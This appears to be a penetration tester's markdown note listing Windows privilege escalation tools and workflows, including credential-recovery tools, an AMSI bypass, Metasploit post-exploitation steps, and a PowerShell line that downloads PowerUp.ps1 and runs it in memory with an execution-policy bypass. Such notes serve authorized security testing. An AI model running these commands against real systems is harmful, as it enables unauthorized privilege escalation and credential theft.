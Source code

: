 # Windows Privilege Escalation Scripts And Tools

Before tooling - consider the machine Situation that you must be aware of. It is always best to understand and map out the machine for yourself and assess in the grand scheme of what objective are, is it worth escalation on this machine - see [[Windows-Privilege-Escalation-Enumeration]] and coresponding [[Windows-Privilege-Escalation-Vectors]].

Always compile tools from source if using them in a client environment.
- [JAWS](https://github.com/411Hall/JAWS) - *"Just Another Windows (Enum) Script"*
- [LaZagne](https://github.com/AlessandroZ/LaZagne) - *"Credentials recovery project"*
- [[Powerview-Cheatsheet]]
- [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) - [[PowerSploit-Helpsheet]] - *"PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."*
- [Seatbelt](https://github.com/GhostPack/Seatbelt) - *"Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives."*
- [SessionGopher](https://github.com/Arvanaghi/SessionGopher) - *"is a PowerShell tool that uses WMI to extract saved session information for remote access tools such as WinSCP, PuTTY, SuperPuTTY, FileZilla, and Microsoft Remote Desktop. It can be run remotely or locally."*
- [SharpUp](https://github.com/GhostPack/SharpUp) - *"SharpUp is a C# port of various PowerUp functionality"*
- [Snaffer](https://github.com/SnaffCon/Snaffler) - finds readable files shares and uses ML-trained algorithm to display desirable files
- [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) - See the [[Sysinternals-Hub]]
- [Watson](https://github.com/rasta-mouse/Watson) - *"Enumerate missing KBs and suggest exploits for useful Privilege Escalation vulnerabilities"*
- [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) - *"Windows Exploit Suggester - Next Generation"*
	- see [[WESNG-Helpsheet]] 
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) - *"Windows local Privilege Escalation Awesome Script (C#.exe and .bat)"*
	- [All checks done are on HackTricks](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) 

Post exploitation tools are integrated into C2s and are sometime actively maintained consider copying one from one - see [[C2-Matrix]] 

[[Metasploit]] modules:
```bash
msfconsole -> use multi/handler -> set payload - >set lhost -> run
# msfvenom your tailoured shell for targeting architecture professionalism
# copy shell to Windows box and run it
# On attack box
run post/multi/recon/local_exploit_suggester
# For example 
# identify exploit/windows/local/ms16_014_wmi_recv_notif
set session [sessionnumber]
set lport [portnumber]
run
```

Scripts and tools
```powershell
https://github.com/carlospolop/PEASS-ng # Is OSCP compliant as of 2022
https://github.com/Tib3rius/windowsprivchecker
https://github.com/gladiatx0r/Powerless.git # For OSCP & Legacy Windows System
https://github.com/411Hall/JAWS	# jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
https://github.com/bitsadmin/nopowershell  
https://github.com/rasta-mouse/AmsiScanBufferBypass  
https://github.com/cobbr/InsecurePowerShell  
https://github.com/BC-SECURITY/Starkiller  
https://github.com/besimorhino/powercat
```
[subinacl](https://windows-resource-kit-tools-subinacl-exe.software.informer.com/) *"enables administrators to obtain security information about files, registry keys, and services, and transfer this information from user to user, from local or global group to group, and from domain to domain."* - Stealthy and reliable.
SysInternals will always be your friend - [[Sysinternals-Hub]] or [Download here](https://docs.microsoft.com/en-us/sysinternals/downloads/)
[[Impacket-Cheatsheet]]
[[Seatbelt-Helpsheet]]

[Empire](https://github.com/BC-SECURITY/Empire) is C2 covered here: [[Empire]] and [[Starkiller]]
For [wesng](https://github.com/bitsadmin/wesng) check usage for [[WESNG-Helpsheet]]
[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is a github repos that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 
The below will load the PowerUp script into memory of a powershell shell, then use [[PowerSploit-Helpsheet]], from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
powershell.exe -ExecutionPolicy Bypass -File .\
```
